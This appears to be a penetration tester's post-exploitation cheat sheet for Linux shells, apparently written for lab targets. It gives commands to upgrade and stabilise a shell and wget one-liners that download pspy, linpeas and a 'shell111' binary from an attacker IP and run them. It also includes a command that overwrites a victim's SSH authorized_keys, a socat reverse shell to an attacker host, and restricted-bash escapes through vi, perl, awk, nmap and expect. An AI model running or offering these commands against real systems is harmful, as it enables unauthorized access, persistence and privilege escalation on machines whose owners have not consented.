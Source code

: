 Out of the gate.

python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp:/snap/bin
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Keyboard Shortcut: Ctrl + Z (Background Process)
stty raw -echo ; fg ; reset
stty columns 200 rows 200
stty columns 150 rows 150

python -c 'import pty; pty.spawn("/bin/bash")' && export TERM=xterm-256color && alias ll='ls -lsaht --color=auto'
python3 -c 'import pty; pty.spawn("/bin/bash")' ; export TERM=xterm-256color ; alias ll='ls -lsaht --color=auto'

wget http://192.168.45.178:8000/pspy64 -O /dev/shm/pspy;chmod +x /dev/shm/pspy;wget http://192.168.45.178:8000/linpeas.sh -O /dev/shm/linpeas.sh;chmod +x /dev/shm/linpeas.sh;/dev/shm/pspy;
wget http://192.168.45.178:80/pspy64 -O /dev/shm/pspy;chmod +x /dev/shm/pspy;wget http://192.168.45.178:80/linpeas.sh -O /dev/shm/linpeas.sh;chmod +x /dev/shm/linpeas.sh;wget http://192.168.45.178:80/shell111 -O /dev/shm/shell111;chmod +x /dev/shm/shell111;/dev/shm/pspy;
wget http://192.168.45.178:80/shell111 -O /dev/shm/shell111;chmod +x /dev/shm/shell111;/dev/shm/shell80&
wget http://192.168.45.178:8000/authorized_keys -O /home/kathleen/.ssh/authorized_keys
http://192.168.45.178:3305/pspy64 -O /dev/shm/pspy;chmod +x /dev/shm/pspy;wget http://192.168.45.178:3305/linpeas.sh -O /dev/shm/linpeas.sh;chmod +x /dev/shm/linpeas.sh;/dev/shm/pspy;
wget http://10.10.14.8:8000/pspy64 -O /dev/shm/pspy;chmod +x /dev/shm/pspy;wget http://10.10.14.8:8000/linpeas.sh -O /dev/shm/linpeas.sh;chmod +x /dev/shm/linpeas.sh;/dev/shm/pspy;
/dev/shm/linpeas.sh

// Pimp out linux shell
which socat
socat file:`tty`,raw,echo=0 tcp-listen:4444 #On Kali Machine
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.49.71:4444 #On Victim Machine

(stty size)
 
* Don't forget that you can always set the terminal history to be infinite, and the keystroke scroll back. 

* Grab a valid tty.
* What OS are you on? Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD
* Want a color terminal to easily tell apart file permissions? Directories? Files?
* Fastest way to list out the files in a directory, show size, show permissions, human readable.
* Make this shell stable.



Is this rbash (Restricted Bash)? PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

Is this rbash (Restricted Bash)? PT2
(This requires ssh user-level access)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(Bash Shell)

Is python present on the target machine?
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

Is perl present on the target machine?
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

Is AWK present on the target machine?
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

Is ed present on the target machines?
ed
!sh

IRB Present on the target machine?
exec "/bin/sh"

Is Nmap present on the target machine?
nmap --interactive
nmap> !sh

Expect:

expect -v
  expect version 5.45.4
  
$ cat > /tmp/shell.sh <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF

$ chmod u+x /tmp/shell.sh
$ /tmp/shell.sh